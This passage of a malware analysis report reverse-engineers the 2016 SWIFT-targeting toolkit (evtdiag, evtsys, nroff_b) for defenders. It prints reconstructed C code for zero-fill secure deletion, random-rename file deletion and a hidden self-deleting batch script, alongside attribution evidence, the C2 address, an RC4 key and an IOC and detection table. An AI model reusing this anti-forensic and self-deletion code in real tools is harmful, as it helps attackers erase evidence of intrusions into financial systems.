DWORD n; WriteFile(hFile, zeroBuf, 1, &n, NULL);

FlushFileBuffers(hFile);

LARGE_INTEGER size;

GetFileSizeEx(hFile, &size);

SetFilePointer(hFile, 0, NULL, FILE_BEGIN);

// Overwrite in 4KB chunks

LARGE_INTEGER pos = {0};

while (pos.QuadPart \< size.QuadPart) {

DWORD chunk = (DWORD) min(4096LL, size.QuadPart - pos.QuadPart);

if (!WriteFile(hFile, zeroBuf, chunk, &n, NULL) \|\| n == 0) break;

pos.QuadPart += n;

}

FlushFileBuffers(hFile);

CloseHandle(hFile);

RenameRandomAndDelete(path, false); // FUN_00401000

}

## 6.4 The random-rename + delete : FUN_00401000

After the contents are zeroed, this routine renames the file to a same-length string of random lowercase letters, then deletes it. The rename defeats forensic tools that scan the MFT for orphaned filenames matching the original.  
  
The rename-then-delete technique defeats naive file-name-based forensic scanning of the MFT. It does not defeat **\$UsnJrnl** analysis, which records the original filename in a RENAME_OLD_NAME entry. The malware does not attempt to suppress the \$**UsnJrnl**, doing so would require kernel privileges and direct volume manipulation. The rename is an anti-forensics measure effective against first-responder triage, not against a full forensic investigation.

### AFTER : reconstructed

DWORD RenameRandomAndDelete(const char \*path, bool isDir)

{

char randomPath\[MAX_PATH\];

strcpy(randomPath, path);

// Find last '\\ to isolate the filename portion

char \*fname = strrchr(randomPath, '\\');

fname = fname ? fname + 1 : randomPath;

// Replace each character in the filename with a random lowercase letter

while (\*fname) {

\*fname = 'a' + (rand() % 26);

fname++;

}

// Rename original → random

MoveFileA(path, randomPath);

// Delete the (renamed) file, or remove directory if flag set

if (!isDir) {

if (!DeleteFileA(randomPath)) return GetLastError();

} else {

if (!RemoveDirectoryA(randomPath)) return GetLastError();

}

return 0;

}

**NOTE :** The rename is a **same-length, same-directory, lowercase a-z random** string, not a UUID, not a hash, not incrementing. Simple and effective for defeating name-based forensic scanning. The rand() import is only used here, not for buffer contents (which are always zero).

## 

## 6.5 The self-delete via evchk.bat : FUN_00401230

Once **evtsys** has finished deleting whatever it was pointed at, it must delete itself. It cannot delete its own .exe directly (**Windows holds the lock**), so it drops a batch script that keeps trying to delete it in a loop, then runs the batch and exits.

### AFTER : reconstructed

void SelfDeleteViaEvchkBat(void)

{

char selfPath\[MAX_PATH\], batPath\[MAX_PATH\];

char batContent\[1024\];

char batName\[16\];

// Get our own path

GetModuleFileNameA(NULL, selfPath, MAX_PATH - 1);

// Build "evchk.bat" byte-by-byte at runtime (obfuscation vs. string dumps)

// 0x65 = 'e', 0x76 = 'v', 0x63 = 'c', 0x68 = 'h',

// 0x6b = 'k', 0x2e = '.', 0x62 = 'b', 0x61 = 'a', 0x74 = 't'

batName\[0\]='e'; batName\[1\]='v'; batName\[2\]='c'; batName\[3\]='h';

batName\[4\]='k'; batName\[5\]='.'; batName\[6\]='b'; batName\[7\]='a';

batName\[8\]='t'; batName\[9\]=0;

// %TEMP%\evchk.bat

GetTempPathA(MAX_PATH, batPath);

lstrcatA(batPath, batName);

// Create the batch file

HANDLE h = CreateFileA(batPath, GENERIC_WRITE, FILE_SHARE_READ, NULL,

CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);

if (h == INVALID_HANDLE_VALUE) return;

// Batch template at .data:0x00403020:

// :L1

// DEL "\<evtsys.exe\>"

// PING 0.0.0.0 \> nul

// IF EXIST "\<evtsys.exe\>" GOTO L1

// DEL "%0"

sprintf(batContent,

":L1\r\n"

"DEL \\%s\\\r\n"

"PING 0.0.0.0 \> nul\r\n"

"IF EXIST \\%s\\ GOTO L1\r\n"

"DEL \\%%0\\",

selfPath, selfPath);

DWORD nWritten;

WriteFile(h, batContent, lstrlenA(batContent), &nWritten, NULL);

CloseHandle(h);

// Launch the batch hidden

STARTUPINFOA si = { sizeof(si) };

si.dwFlags = STARTF_USESHOWWINDOW;

si.wShowWindow = SW_HIDE;

PROCESS_INFORMATION pi;

CreateProcessA(NULL, batPath, NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi);

// exit normally, batch will keep retrying until we're gone, then DEL "%0" itself

}

**FINDING :** The PING 0.0.0.0 \> nul idiom is a portable "sleep" (again genius), while PING waits for a timeout on the unreachable address, **evtsys.exe** finishes exiting and its file lock releases. Then IF EXIST fails, the loop exits, and DEL "%0" deletes the batch file itself. Nothing survives.

**FINDING :** The **evchk.bat** filename is **built byte-by-byte at runtime** via **MOV** instructions with immediate byte values (**0x65, 0x76, 0x63**, ...). Deliberately NOT stored as a plaintext string, so the strings dump of **evtsys.exe** does not contain "**evchk.bat**". Small **anti-analysis** touch.

# 7. nroff_b.exe : The Demultiplexer

The third binary. Its filename references the legitimate SWIFT print utility "**nroff**", but it has nothing to do with printing. It is a message **demultiplexer**: it reads batched SWIFT message files, splits them into individual messages, sorts them into **per-message-type** subdirectories, and destroys the originals.

## 7.1 Binary characteristics

| **Property**                             | **Value**                                                                         |
|------------------------------------------|-----------------------------------------------------------------------------------|
| File size                                | 24,576 bytes (24 KB)                                                              |
| Compiler                                 | Visual Studio 6.0                                                                 |
| Compile timestamp                        | Fri Feb 05 2016 08:55:19 UTC                                                      |
| Function count                           | ~40                                                                               |
| Flagged imports                          | CreateDirectory, DeleteFile, CopyFile, WriteFile, RemoveDirectory, MoveFile, rand |
| No CreateProcessA, no WININET, no crypto |                                                                                   |

## 7.2 Shared conventions with evtdiag

nroff_b's .data section carries the same string constants as evtdiag, proving they were built from a common source tree:

| **String**                    | **Address in nroff_b** | **Purpose**                   |
|-------------------------------|------------------------|-------------------------------|
| gpca.dat                      | 0x5048                 | Config file (same as evtdiag) |
| recas.dat                     | 0x503C                 | Log file (same as evtdiag)    |
| Allians                       | 0x50C0                 | Alliance base dir (same)      |
| Administrator                 | 0x50B0                 | Hardcoded username (same)     |
| %c:\Users\\s\AppData\Local\\s | 0x5090                 | Path template (same)          |
| .\\ \_DO_NOT_USE_MM\_         | 0x50C8                 | Sentinel (same)               |
| Swift Input / Swift Output    | 0x50FC / 0x5108        | Direction labels              |
| 28C: Statement Number         | 0x5118                 | SWIFT MT tag                  |
| Incoming / Outgoing / nak     | 0x50E4-0x5148          | Output subdirectory names     |

## 7.3 The demultiplexer core : FUN_004026e0

The main routine that processes one batched file. Reads the batch into memory, iterates message-blocks, classifies each by MT type, writes to a per-type subdirectory, then destroys the source.

### AFTER : reconstructed

// Read a batched SWIFT message file, split into individual messages,

// route each to the appropriate output subdirectory, then destroy the batch.

DWORD DemuxSwiftBatch(const char \*sourcePath, char \*destPath,

int direction, char verboseFlag)

{

char filenameOnly\[MAX_PATH\];

\_splitpath(destPath, NULL, NULL, filenameOnly, NULL);

// Read entire batched file into memory

DWORD size = 0;

LPCSTR fileBuffer = ReadFileIntoBuffer(sourcePath, &size); // FUN_00401290

if (!fileBuffer) return -1;

int writeCount = 0;

LPSTR blockPos = FindNextBlock(fileBuffer, blockBuf); // FUN_004018a0

while (blockPos != NULL) {

int mtType = 0, mtSubtype = 0;

int parseResult = ParseMessageBlock(blockBuf, &mtType, &mtSubtype);

bool isKnownMt = false;

bool isNak = false;

// Check for known MT types

if ((mtType == 0x3B6 \|\| mtType == 0x203) && mtSubtype == 0)

isKnownMt = true; // 0x3B6=950, 0x203=515

// Check if the message starts with "nak"

if (\_stricmp(blockContent, "nak") == 0)

isNak = true;

if (isNak) {

// Route to NAK subdirectory

char outPath\[MAX_PATH\];

\_makepath(outPath, NULL, "nak_output_dir", filenameOnly, NULL);

WriteMessageBlock(outPath, blockContent, 1); // FUN_00401320

}

else if (mtType == 0x3B6) { // MT950 — Statement Message

int seq1 = 0, seq2 = 0;

ExtractStatementNumbers(blockContent, &seq1, &seq2); // FUN_00402310

char filename\[64\];

sprintf(filename, "%d\_%d-", seq1, seq2);

char outPath\[MAX_PATH\];

\_makepath(outPath, NULL, DEST_DIR_MT950, filename, NULL);

WriteMessageBlock(outPath, blockContent, 1);

}

else if (mtType == 0x203) { // MT515 — Client Advice

// Similar routing with MT515-specific template

}

else if (verboseFlag) {

// Route generic messages to Incoming\\ or Outgoing\\

const char \*subdir = (direction == 0) ? "\\Outgoing\\" : "\\Incoming\\";

char outPath\[MAX_PATH\];

\_makepath(outPath, NULL, subdir, filenameOnly, NULL);

WriteMessageBlock(outPath, blockContent, 1);

}

writeCount++;

blockPos = FindNextBlock(blockPos, blockBuf);

}

// If nothing was written, destroy the source

if (writeCount == 0)

SecureDelete(destPath); // FUN_00401640

LocalFree(fileBuffer);

return 0;

}

### MT-type classification

Recognized message types (from the compares in **FUN_00402050**):

| **Numeric ID** | **Hex** | **SWIFT MT** | **Meaning**                                     |
|----------------|---------|--------------|-------------------------------------------------|
| 950            | 0x3B6   | MT950        | Statement Message (account statement)           |
| 515            | 0x203   | MT515        | Client Advice of Purchase/Sale                  |
| —              | —       | NAK          | Negative acknowledgment (routed to NAK subdir)  |
| —              | —       | Swift Input  | Generic incoming message (routed to \Incoming\\ |
| —              | —       | Swift Output | Generic outgoing message (routed to \Outgoing\\ |

**FINDING : nroff_b's** role in the attack: it transforms Alliance Access's raw batched output into **per-message organized files** that **evtdiag** can then walk directly. Without **nroff_b**, **evtdiag** would need to re-parse batches from scratch on every scan. With **nroff_b**, **evtdiag** has pre-sorted subdirectories per message type.

## 7.4 The filter iterator : FUN_00401cc0

The function that iterates the **gpca.dat** filter list. Uses a fixed 64-byte-per-slot array, the exact structure the decrypted **gpca.dat** filter list uses in memory.

### AFTER : reconstructed

// Search the filter-list for any string that occurs as a substring of 'needle'.

// The filter list is an array of 64-byte fixed-size string slots.

// Returns the matching slot index, or -1 if none matched.

int FindMatchingFilter(LPCSTR needle, FilterArray \*filters)

{

if (needle == NULL) return -1;

if (filters-\>count \<= 0) return -1;

char \*slot = filters-\>firstSlot;

for (int i = 0; i \< filters-\>count; i++) {

if (CaseInsensitiveContains(needle, slot)) // FUN_00401ca0

return i;

slot += 64; // fixed slot size

}

return -1;

}

So the pipeline is: **nroff_b** splits the batches and organizes messages by **MT** type. Then **evtdiag** applies the **gpca.dat** filter list to identify the specific transaction references the attackers want to hide.

# 8. The Complete Lifecycle, Start to Finish

Putting all of chapters 4-7 together, here is what happens on a victim host from the moment the loader drops the three binaries to the moment nothing remains on disk.

## 8.1 Timeline of a single operational cycle

1.  **Startup** : The binary initializes, decrypts its configuration from gpca.dat, and waits for a SWIFT operator to log in before doing anything visible.

2.  **Activation** : Triggered by the operator login. The malware patches the Oracle client library in memory and opens its covert C2 communication channel.

3.  **Main loop** : Runs every 1 second for the entire attack window. Continuously scans print directories, doctors confirmation files, syncs Oracle state, and checks the kill switch.

4.  **C2 beacon thread** : Runs concurrently in the background. Reports login state to the C2 server every hour and sends queued exfil payloads immediately when available.

5.  **During operation** : The fraudulent SWIFT transactions are sent. **evtdiag** deletes the matching database rows and doctors the printed confirmations so operators see nothing unusual.

6.  **Kill switch fires ( 2016-02-06 06:00 )** : The malware begins destroying all evidence of its presence. Config, log, service registration, and all binaries are eliminated in a precise sequence.

7.  **evtsys.exe** : Spawned by **evtdiag** specifically to delete **evtdiag's** own executable, a file **evtdiag** cannot delete while running. Retries up to 50 times until the file is gone.

8.  **evchk.bat** : The final cleanup act. A batch script dropped by **evtsys** that deletes **evtsys.exe** itself, then deletes the batch file. Nothing remains.

9.  **End state** : No binaries, no config, no log, no service registration. The only surviving trace is the patched liboradb.dll in memory, which reverts on the next reboot.

 



**FINDING :** The lifecycle is designed for a **single operational window**, not persistence. After cleanup, if the victim reboots, the patched liboradb.dll returns to normal (patch was in-memory only). If they don't reboot, the patch stays until the process holding liboradb.dll restarts. Either way, the malware left no reinfection vector.

# 9. Attribution Evidence : Same Author, Same Source Tree

Six independent lines of evidence confirm that **evtdiag.exe**, **evtsys.exe**, and **nroff_b.exe** were compiled from a shared source codebase by the same author. No single line of evidence is conclusive alone; together they form an attribution case that is difficult to rebut.

## 9.1 Identical RC4 key in evtdiag and evtsys

The 16-byte sequence below appears verbatim in two separate binaries:

**4E 38 1F A7 7F 08 CC AA 0D 56 ED EF F9 ED 08 EF**

| **Binary**  | **Address**      | **XREFs from executable code**                        |
|-------------|------------------|-------------------------------------------------------|
| evtdiag.exe | .data:0x40F020 | 1 : **FUN_004013b0:0x4013ee** (the config loader)     |
| evtsys.exe  | .data:0x00403010 | 0 : the key sits in **.data** with no code references |

**FINDING :** The key is **used** in **evtdiag** (to decrypt **gpca.dat**) and **vestigial** in evtsys (present in the binary but unreferenced by any function). The most natural explanation: both were compiled from a shared source tree that included a common cryptography module. The key constant was included via a shared header file or **.c** module that **evtsys** links but does not call. This is a stronger attribution signal than merely "**same algorithm**", it is literally the same key bytes at a named **.data** symbol in two separate PE files.

## 9.2 Cloned secure-delete implementation

The secure-delete routines in both binaries are structurally identical at the assembly level:

| **Feature**           | **evtdiag FUN_00401640**                                            | **evtsys FUN_004010f0**            |
|-----------------------|---------------------------------------------------------------------|------------------------------------|
| Stack frame size      | 0x1014                                                              | 0x1014                             |
| **Overwrite content** | zeros only (XOR EAX,EAX + STOSD.REP → 4KB chunks written unchanged) | zeros only                         |
| Stack probe pattern   | \_\_chkstk call                                                     | \_\_chkstk call                    |
| Buffer init           | XOR EAX,EAX + STOSD.REP 0x3FF                                       | XOR EAX,EAX + STOSD.REP 0x3FF      |
| CreateFileA flags     | 0x40000000 GENERIC_WRITE                                            | 0x40000000 GENERIC_WRITE           |
| Probe write           | 1-byte null at FILE_END                                             | 1-byte null at FILE_END            |
| Overwrite loop        | 4KB chunks via WriteFile until EOF                                  | 4KB chunks via WriteFile until EOF |
| Post-overwrite        | Call FUN_00401550 (rename+delete)                                   | Call FUN_00401000 (rename+delete)  |
| Rename algorithm      | 'a' + rand()%26 per char                                            | 'a' + rand()%26 per char           |

## 

**EVIDENCE :** This is not "**same algorithm**" at the pseudocode level, it is the same implementation details: same stack size, same buffer initialization idiom, same probe pattern, same chunk size, same post-overwrite hand-off structure. Copy-paste from a shared **.c** file or static library.

## 9.3 Identical string constants across all three binaries

| **String**                    | **evtdiag**    | **evtsys**             | **nroff_b** |
|-------------------------------|----------------|------------------------|-------------|
| gpca.dat                      | .data:0x40F05C | .data:0x403010 area    | 0x5048      |
| recas.dat                     | .data:0x40F050 | from the strings table | 0x503C      |
| Allians                       | .data:0x40F0D4 | \-                     | 0x50C0      |
| Administrator                 | .data:0x40F0C4 | \-                     | 0x50B0      |
| %c:\Users\\s\AppData\Local\\s | .data:0x40F0A4 | \-                     | 0x5090      |
| .\\ \_DO_NOT_USE_MM\_         | .data:0x40F12C | \-                     | 0x50C8      |
| evtsys.exe                    | .data:0x40FAB4 | own name               | \-          |

## 9.4 Same compiler toolchain

All three binaries show:

- Visual Studio 6.0 rich header (confirmed via PEStudio toolchain field)

- MSVCP60.dll dependency (C++ runtime, same version across all three)

- Same mangled STL symbol names: basic_string\<char, std::char_traits\<char\>, std::allocator\<char\>\>

- Same \_except_handler3 SEH pattern (VS6 structured exception handling)

- Same \_chkstk stack-probe calling convention

## 9.5 Adjacent compile timestamps

All three binaries were compiled in a 46-hour window on 2016-02-04 and 2016-02-05:

| **Binary**  | **Compile timestamp (UTC)** | **Hours before kill switch** |
|-------------|-----------------------------|------------------------------|
| evtsys.exe  | Thu Feb 04 2016 13:45:39    | ~ 40.2 hours                 |
| nroff_b.exe | Fri Feb 05 2016 08:55:19    | ~ 21 hours                   |
| evtdiag.exe | Fri Feb 05 2016 11:46:20    | ~ 18.2 hours                 |

The kill switch fires at 2016-02-06 06:00 local time. All three binaries were compiled within the same 46-hour operational window, with evtdiag (the last compiled) being compiled less than 18 hours before the operation was designed to end. This is not coincidence, it is the same developer building and deploying a coordinated toolkit.

## 9.6 Same filename masquerade pattern

All three binaries masquerade as legitimate components of the victim's environment:

| **Binary name** | **Legitimate name it mimics**                   | **Context**                                                                         |
|-----------------|-------------------------------------------------|-------------------------------------------------------------------------------------|
| evtsys.exe      | Windows Event System service (evtsvc.exe)       | Used as service dispatcher name, close enough to fool a quick glance                |
| nroff_b.exe     | SWIFT Alliance Access print utility (nroff.exe) | References the legitimate print binary in its own filename; swapped in as rnoff.exe |
| diagsysevt      | Sounds like a Windows diagnostic service        | Service registration key name                                                       |

**FINDING :** The masquerade pattern is consistent and intentional across all three artifacts. This level of operational consistency in naming points to a single author (or small coordinated team) who planned the deployment environment and chose names accordingly.

# 10. Indicators of Compromise : Complete Table

All IOCs below are grounded in disassembly evidence from the RE work documented in this guide. Priority ratings reflect: detectability, uniqueness (low false-positive risk), and persistence (how long the indicator survives on a clean system).

## 10.1 CRITICAL : High fidelity, almost no false positives

**WATCH OUT :** Any single CRITICAL indicator, if found on a system running SWIFT Alliance Access, warrants immediate incident response. These strings or behaviors do not appear in any legitimate software.

<table>
<colgroup>
<col style="width: 34%" />
<col style="width: 7%" />
<col style="width: 14%" />
<col style="width: 43%" />
</colgroup>
<thead>
<tr class="header">
<th><strong>IOC</strong></th>
<th><strong>Type</strong></th>
<th><strong>Binary / Address</strong></th>
<th><strong>Notes</strong></th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td>Windows service named "<strong>diagsysevt</strong>"</td>
<td>Service name</td>
<td>evtdiag .data:0x40FD04</td>
<td>No legitimate service uses this name. Registry key: HKLM\SYSTEM\CurrentControlSet\Services\diagsysevt</td>
</tr>
<tr class="even">
<td>File nroff.exe.bak in any Alliance directory</td>
<td>File artifact</td>
<td>evtdiag FUN_00409920</td>
<td>Created when malware backs up the legitimate nroff.exe before swapping in rnoff.exe</td>
</tr>
<tr class="odd">
<td>File rnoff.exe in any Alliance directory</td>
<td>File artifact</td>
<td>evtdiag .data:0x40FCAC</td>
<td>The malicious replacement for nroff.exe</td>
</tr>
<tr class="even">
<td>File %TEMP%\evchk.bat</td>
<td>File artifact</td>
<td>evtsys FUN_00401230</td>
<td>Dropped by evtsys during self-deletion. Name constructed byte-by-byte to evade string analysis</td>
</tr>
<tr class="odd">
<td>196.202.103.174 in any network connection or DNS query</td>
<td>Network / IP</td>
<td>gpca.dat + evtdiag DAT_00419394</td>
<td>Hardcoded C2 server. HTTP GET to port 80</td>
</tr>
<tr class="even">
<td>GET /al?---O or /al?---C or /al?---N in HTTP traffic</td>
<td>Network / HTTP</td>
<td>evtdiag .data:0x40FA90-0x40FAA0</td>
<td>C2 heartbeat markers. Very specific URI pattern</td>
</tr>
<tr class="odd">
<td>_DO_NOT_USE_MM_ inside any .prt or .fal file</td>
<td>File content</td>
<td>evtdiag .data:0x40F12C</td>
<td>nroff-comment sentinel used as message-boundary delimiter. Not present in legitimate nroff output</td>
</tr>
<tr class="even">
<td>
RC4 key 4E381FA77F08CCAA0D56EDEFF9ED08EF

on disk
</td>
<td>File content</td>
<td>evtdiag .data:0x40F020, evtsys .data:0x00403010</td>
<td>Hardcoded in both binaries. Finding this key in a memory dump or binary is definitive</td>
</tr>
<tr class="odd">
<td>evtdiag.exe -i / -u / -svc / -t in process command line</td>
<td>Process</td>
<td>evtdiag FUN_00409db0</td>
<td>Operator CLI flags. No legitimate binary uses these flags with this name</td>
</tr>
<tr class="even">
<td><strong>OpenProcess</strong>(0x1F0FFF) targeting process holding liboradb.dll</td>
<td>Process / Sysmon</td>
<td>evtdiag FUN_004023b0</td>
<td>PROCESS_ALL_ACCESS on a SWIFT process. Sysmon Event 10 with GrantedAccess=0x1F0FFF</td>
</tr>
<tr class="odd">
<td>Directory Allians\mcf\ present on any Alliance Access host</td>
<td>File / Directory</td>
<td>evtdiag FUN_004014F0 + FUN_004019F0</td>
<td>This directory does not exist in a legitimate Alliance Access installation. It is created at runtime by evtdiag. Its presence alone, regardless of contents, is definitive evidence evtdiag ran on this system.</td>
</tr>
</tbody>
</table>

## 

## 

## 10.2 HIGH : Strong indicators, very low false positive rate in Alliance Access environments

| **IOC**                                                                                   | **Type**         | **Binary / Address**            | **Notes**                                                                                                       |
|-------------------------------------------------------------------------------------------|------------------|---------------------------------|-----------------------------------------------------------------------------------------------------------------|
| evtsys.exe outside C:\Windows\System32                                                    | File             | evtsys binary                   | The legitimate Event System binary is evtsvc.exe, not evtsys.exe. Any evtsys.exe outside System32 is suspicious |
| File rename: human-readable name → all lowercase same-length, then deleted within seconds | File / Sysmon    | evtsys FUN_00401000             | Sysmon Event 11 + Event 23 correlation. The rename uses rand()%26 lowercase characters                          |
| cmd.exe spawning a batch from %TEMP% containing "PING 0.0.0.0 \> nul" and "IF EXIST"      | Process          | evtsys FUN_00401230             | The self-delete batch pattern. Common in malware self-deletion generally                                        |
| WriteProcessMemory + VirtualProtectEx against a process holding liboradb.dll              | Process / API    | evtdiag FUN_00402580            | The exact patch sequence. RVA 0x6A8B6 in liboradb.dll                                                           |
| SeDebugPrivilege adjustment by a non-system process                                       | Process / Sysmon | evtdiag FUN_004023b0            | Sysmon Event 1 or ETW: AdjustTokenPrivileges for SeDebugPrivilege                                               |
| sqlplus invoked via "cmd.exe /c echo exit \| sqlplus -S / as sysdba @…"                   | Process          | evtdiag .data:0x40F8EC          | Exact command-line template used for silent SQL execution. Very unusual in practice                             |
| Temp SQL file with prefix SQL or TMP containing SET FEEDBACK OFF / set linesize 32567     | File content     | evtdiag .data:0x40F92C-0x40F974 | Specific preamble SQL strings dropped before executing DELETE/UPDATE                                            |
| DeleteService call against "diagsysevt"                                                   | API / Registry   | evtdiag FUN_004092b0            | Appears in the cleanup chain. Seen in API monitoring or Sysmon registry event                                   |

## 

## 

## 

## 

## 

## 

## 

## 

## 

## 10.3 MEDIUM : Useful in combination, higher false positive rate alone

| **IOC**                                                                         | **Type**          | **Binary / Address**                | **Notes**                                                                           |
|---------------------------------------------------------------------------------|-------------------|-------------------------------------|-------------------------------------------------------------------------------------|
| gpca.dat in any non-standard directory                                          | File              | evtdiag .data:0x40F05C              | Generic filename but specific to this toolkit in this context                       |
| recas.dat in Allians\\ directory                                                | File              | evtdiag .data:0x40F050              | Log file. Presence alongside gpca.dat is more significant than either alone         |
| Directory named "Allians" under AppData\Local\Administrator                     | File / Directory  | evtdiag .data:0x40F0D4              | Misspelled — legitimate SWIFT installs use "Alliance". The misspelling is the tell  |
| SWIFT MT tags 36B:, 61:, 64:, 65: being parsed by a non-SWIFT process           | Behavioral        | evtdiag .data:0x40FECC-0x40FEEC     | Extended tag set beyond what BAE documents. In string dump of any suspicious binary |
| HTTP GET /al? to port 80 (any host)                                             | Network           | evtdiag FUN_00408f40                | Generic beacon URI pattern. Only significant if combined with other indicators      |
| Rapid zero-byte writes to 4-character-filename files in SWIFT spool directories | File / Behavioral | evtdiag FUN_004042a0 + FUN_00401640 | The PRT cleanup loop running every second. Unusual rate of file-overwrite events    |
| File 0016NNNN.prt being created then immediately zero-filled and deleted        | File / Sysmon     | evtdiag .data:0x40F6EC              | The PRT file naming template. Sysmon File Create + File Delete correlation          |
| FIN 900 Confirmation of Debit string in memory of a non-SWIFT process           | Memory            | evtdiag .data:0x40F8A4              | The SWIFT message type the malware specifically looks for                           |
| FEDERAL RESERVE BANK string in memory of a non-SWIFT process                    | Memory            | evtdiag .data:0x40F83C              | Hardcoded target institution string. Not normally found in non-SWIFT processes      |

## 10.4 How to use these IOCs

**1. Host forensics (post-incident):** Run strings + YARA + SIGMA against any suspicious binary. The RC4 key, the \_DO_NOT_USE_MM\_ sentinel, the evchk.bat template string, and the diagsysevt service name are all high-confidence YARA matches.

**2. SIEM/EDR rules (live detection):** Correlate Sysmon events:

- Event 1 (Process Create) with CommandLine matching evtdiag.exe -i, -u, -svc, -t

- Event 10 (ProcessAccess) with GrantedAccess=0x1F0FFF

- Event 11 (File Create) of evchk.bat in %TEMP%

- Event 7 (Image Load) of a DLL named liboradb.dll by an unexpected process

- Event 13 (Registry) CreateKey under Services\diagsysevt

**3. Network monitoring:** Any HTTP GET to 196.202.103.174 on port 80 with URI starting with /al? is a definitive C2 beacon. The URI pattern /al?---O, /al?---C, /al?---N is unique to this family.

